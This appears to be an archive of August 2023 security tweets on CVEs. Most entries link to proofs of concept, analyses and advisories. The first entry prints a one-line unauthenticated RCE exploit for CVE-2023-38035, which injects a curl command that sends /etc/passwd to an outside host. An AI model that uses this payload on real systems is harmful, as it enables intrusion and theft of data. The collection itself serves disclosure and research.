









# win3zz
**https://twitter.com/win3zz/status/1696779640457834545 _at 2023-08-30, 06:59:25_**
<blockquote>
CVE-2023-38035 - Unauth. RCE

PoC: 👇
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://t.co/ZhRonPoqrv', 'isRoot': True}, None)" https://t.co/OkkkK2Vn8H
</blockquote>

* http://BURP-COLLABORATOR-URL.com

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1695485778900746705 _at 2023-08-26, 17:18:04_**
<blockquote>
Winrar_CVE-2023-38831_lazy_poc
https://t.co/N8sKq8Negh
</blockquote>

* https://github.com/BoredHackerBlog/winrar_CVE-2023-38831_lazy_poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1695133944511873259 _at 2023-08-25, 18:00:01_**
<blockquote>
CVE-2023-40176, -40177, -40572, -40573: Multiple vuln in XWiki, 9.0-9.9 rating 🔥

Fresh RCE, Privelege Escalation and stored XSS in XWiki Platform.

Search at https://t.co/hv7QKSqxTR:
👉 Link: https://t.co/HBmQiaDgBw

#cybersecurity #vulnerability_map https://t.co/uB5BOS2kx2
</blockquote>

* http://Netlas.io
* https://nt.ls/SSzCU

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# FortiGuardLabs
**https://twitter.com/FortiGuardLabs/status/1695122493453844856 _at 2023-08-25, 17:14:30_**
<blockquote>
#FortiGuardLabs Threat Signal Report: Adobe ColdFusion Deserialization of Untrusted Data Vulnerabilities (CVE-2023-26359, CVE-2023-26360) ⮕ https://t.co/G7Qoiy9oTq https://t.co/Ey1RqXt8uH
</blockquote>

* https://ftnt.net/6013PUFWP

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>130</code></td>
</tr></table>

---

# filip_dragovic
**https://twitter.com/filip_dragovic/status/1694322560349974894 _at 2023-08-23, 12:15:52_**
<blockquote>
Here is PoC for LPE in Windows Error Reporting Service CVE-2023-36874

https://t.co/sodVtsvBeu
</blockquote>

* https://github.com/Wh04m1001/CVE-2023-36874

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>135</code></td>
<td>Favorites: <code>306</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1693645355928154362 _at 2023-08-21, 15:24:53_**
<blockquote>
At the end on 2021, I spent a week porting https://t.co/vZoBaD91pb to learn about ARM64 MMU. I found a weird bug in Google's Fuchsia MMU subsystem (CVE-2021-22566) 🔮🪲

It recently got derestricted, so sharing it in case somebody finds it interesting: https://t.co/XlKRlBfM6h 🙏🏽 https://t.co/yY860cRkh5
</blockquote>

* https://github.com/0vercl0k/clairvoyance
* https://bugs.fuchsia.dev/p/fuchsia/issues/detail?id=88451

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>231</code></td>
</tr></table>

---

# Big5_sec
**https://twitter.com/Big5_sec/status/1692660567272489229 _at 2023-08-18, 22:11:42_**
<blockquote>
Here is a little analysis of @masthoon's CVE-2023-29360, a beautiful LPE he used during last Pwn2own: https://t.co/m4P72rsXCr https://t.co/RLGnYzpBw3
</blockquote>

* https://big5-sec.github.io/posts/CVE-2023-29360-analysis/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1692472298698166559 _at 2023-08-18, 09:43:35_**
<blockquote>
CVE-2023-40477: WinRAR Code Execution Vulnerability https://t.co/bVyIC7Zaxv
</blockquote>

* https://securityonline.info/cve-2023-40477-winrar-code-execution-vulnerability/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>287</code></td>
<td>Favorites: <code>691</code></td>
</tr></table>

---

# TecR0c
**https://twitter.com/TecR0c/status/1692066840015712694 _at 2023-08-17, 06:52:26_**
<blockquote>
I recently identified a Remote Code Execution vulnerability, CVE-2023-35371, impacting Microsoft Office 365, Office 2019 for Mac, and Office LTSC for Mac 2021 due to a double free vulnerability. I'd like to thank the @msftsecresponse team for addressing this in the recent Patch…
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# KeyZ3r0
**https://twitter.com/KeyZ3r0/status/1689103131031035904 _at 2023-08-09, 02:35:43_**
<blockquote>
Finally MSRC fix all my reports on CNG Key isolation including 6 UaFs and 2 OOBr. Actually I have already completed full exploit with CVE-2023-28229 and CVE-2023-36907 which could lead to escape from AppContainer sandbox, I will share this exploitation on my blog asap.😀 https://t.co/nsLT3egrpd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>170</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1687893754483515393 _at 2023-08-05, 18:30:05_**
<blockquote>
Excellent analysis and exploitation of a use-after-free vulnerability in Traffic Control cls_tcindex (CVE-2023-1829).
Credits @lanleft_ (@starlabs_sg)

https://t.co/tb91t583gl

#cybersecurity #exploit #Linux https://t.co/HGA5PTOfS2
</blockquote>

* https://starlabs.sg/blog/2023/06-breaking-the-code-exploiting-and-examining-cve-2023-1829-in-cls_tcindex-classifier-vulnerability/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---

